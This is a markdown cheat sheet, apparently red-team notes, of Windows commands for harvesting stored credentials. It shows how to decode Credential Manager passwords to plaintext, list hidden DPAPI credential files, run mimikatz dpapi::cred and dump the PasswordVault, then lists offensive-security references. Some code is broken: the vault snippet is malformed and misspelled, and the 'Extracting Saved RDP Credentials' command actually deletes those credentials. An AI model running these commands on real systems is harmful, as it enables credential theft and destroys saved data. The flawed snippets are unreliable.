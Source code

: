 # Living off the Land

## 01 - Types of credentials to dump

Various credentials will be harvested and they are:
- Web browsers
- Emails
- Video Conferences
- Wi-Fi credentials
- Certificates
- RDP passwords
- etc

## 01 - View Credentials

### 1.1 - Command Prompt

```
C:\> rundll32.exe keymgr.dll,KRShowKeyMgr
```

### 1.2 - PowerShell

```powershell
PS C:\> $credman = New-Object -TypeName PSCredentialManager.Credential; $credman | Where-Object { $_.Type -eq
'Generic' } | Select-Object -Property UserName, Password
```

```
PS C:\> Get-StoredCredential | ForEach-Object { Write-host -NoNewLine $_.username; write-host -NoNewLine ":" ; $p = [System.Runtime.InteropServices.Marshal]::SecureStringToBSTR($_.password) ; [System.Runtime.InteropServices.Marshal]::PtrToStringAuto($p); }
```

## 02 - List Credential Files

### 2.1 - Command Prompt

TODO: Fill this info

```
C:\> dir /a:h C:\Users\%username%\AppData\Local\Microsoft\Credentials

C:\> dir /a:h C:\Users\%username%\AppData\Roaming\Microsoft\Credentials

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Local\Microsoft\Credentials\

PS C:\> Get-ChildItem -Hidden C:\Users\username\AppData\Roaming\Microsoft\Credentials\
```

```
C:\> dir C:\Users\<username>\AppData\Roaming\Microsoft\Protect\<SUID>\<GUID>
```

```
mimikatz # dpapi::cred /in:C:\Users\<username>\AppData\Local\Microsoft\Credentials\ /master-key:
```

### 2.2 - PowerShell

```powershell
[void][Windows.Security.Credentials.PasswordVault.Windows.Security.Credentials.ContentType=WindowsRuntime]
$vault = New-Object Wnidows.Security.Credentials.PasswordVault
$vault.RetrieveAll() | ForEach-Object { $_.RetrievePassword(); $_ }
```

## 03 - Extracting Saved RDP Credentials

### 3.1 - PowerShell

```
PS C:\> cmdkey.exe /list | Select-String 'Target: TERMSRV' | ForEach-Object { cmdkey.exe /delete:($_ -split ' ')[-1] }
```

---
## References

### LOFLCAB

- [LOFLCAB: Get-ChildItem](https://lofl-project.github.io/loflcab/Cmdlets/Get-ChildItem/)

### Hacktricks

- [HackTricks: DPAPI - Extracting Passwords](https://book.hacktricks.wiki/en/windows-hardening/windows-local-privilege-escalation/dpapi-extracting-passwords.html)

### InternalAllTheThings

- [InternalAllTheThings: Windows - DPAPI](https://swisskyrepo.github.io/InternalAllTheThings/redteam/evasion/windows-dpapi)

### Hacking Articles

- [Hacking Articles: Windows Credential Manager](https://www.hackingarticles.in/credential-dumping-windows-credential-manager/)

### The Hacker Recipes

- [The Hacker Recipes: DPAPI Protected Secrets](https://www.thehacker.recipes/ad/movement/credentials/dumping/dpapi-protected-secrets)

- [The Hacker Recipes: Cred](https://tools.thehacker.recipes/mimikatz/modules/vault/cred)

- [The Hacker Recipes: Vault](https://tools.thehacker.recipes/mimikatz/modules/vault/list)

### Exploit Notes

- [Exploit Notes: Dumping Credentials with `keymgr.dll`](https://exploit-notes.hdks.org/exploit/windows/privilege-escalation/dumping-credentials-with-keymgr-dll/)

### harmj0y

- [harmj0y: Operational Guidance for Offensive User DPAPI Abuse](https://web.archive.org/web/20211206115041/https://www.harmj0y.net/blog/redteaming/operational-guidance-for-offensive-user-dpapi-abuse/)

### Pentestlab

- [Pentestlab Blog: Dumping RDP Credentials](https://pentestlab.blog/2021/05/24/dumping-rdp-credentials/)

### Passcape

- [Passcape Software: DPAPI Secrets](https://www.passcape.com/index.php?section=docsys&cmd=details&id=28)

### Bartosz Inglot

- [Bartosz Inglot: The Blackbox of DPAPI](https://github.com/msuiche/OPCDE/blob/master/2017/The%20Blackbox%20of%20DPAPI%20the%20gift%20that%20keeps%20on%20giving%20-%20Bartosz%20Inglot/The%20Blackbox%20of%20DPAPI%20-%20Bart%20Inglot.pdf)

### Jean Christophe Delaunay

- [Jean Christophe Delaunay: DPAPI exploitation during pentest and password cracking](https://www.synacktiv.com/ressources/univershell_2017_dpapi.pdf)

### Francesco Picasso:

- [Francesco Picasso: Happy DPAPI!](https://blog.digital-forensics.it/2015/01/happy-dpapi.html)

- [Francesco Picasso: ReVaulting! Decryption and opportunities](https://www.slideshare.net/slideshow/revaulting-decryption-and-opportunities/56834244)

### Itai Grady

- [Itai Grady: Protecting browsers’ secrets in a domain environment](https://www.slideshare.net/slideshow/protecting-browsers-secrets-in-adomainenvironment/63364753)

### Jean Michel Picod and Elie Bursztein

- [Jean Michel Picod and Elie Bursztein: Decrypting DPAPI data](https://elie.net/static/files/reversing-dpapi-and-stealing-windows-secrets-offline/reversing-dpapi-and-stealing-windows-secrets-offline-slides.pdf)

### Rasta Mouse

- [Rasta Mouse: Jumping Network Segregation with RDP](https://web.archive.org/web/20200525123919/https://rastamouse.me/2017/08/jumping-network-segregation-with-rdp/)

### InfoSec Matter

- [InfoSec Matter: Powershell Commands for Pentesters](https://www.infosecmatter.com/powershell-commands-for-pentesters/)
